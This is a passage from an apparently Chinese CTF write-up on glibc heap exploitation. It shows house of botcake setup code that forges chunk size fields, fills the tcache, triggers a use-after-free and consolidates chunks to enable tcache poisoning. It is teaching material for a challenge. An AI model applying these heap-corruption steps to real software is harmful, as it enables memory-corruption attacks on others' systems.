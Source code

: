 这题如果单纯的打 house of botcake，那么后续只能打 io leak 泄露一个堆地址。如果想第二次打 tcache poisoning 的话，就必须要进行一点布局

```bash
add(0x100,'a')
    add(0x100,'b')

    add(0x80,'c')
    payload=p64(0xdeadbeef)*14+p64(0x180)+p64(0x90)
    add(0x100,payload)#size and prev_size of unsigned bin to be forged
```

[![](assets/1700186924-24090e015e71f829e9f664e2d892d333.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231116162844-27dee414-845a-1.png)

[![](assets/1700186924-10a0a64ccb72471500ad342ae9d9551e.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231116162850-2b91ef52-845a-1.png)

```bash
for i in range(6):
        add(0x100,'a')

    for i in range(3,10):
        delete(i) 

    uaf(1)

    delete(0)
```

将 chunk3-10 delete 来把 tcachebin 填满

free 掉 chunk1，再将 chunk0 delete 来与 chunk1 合并
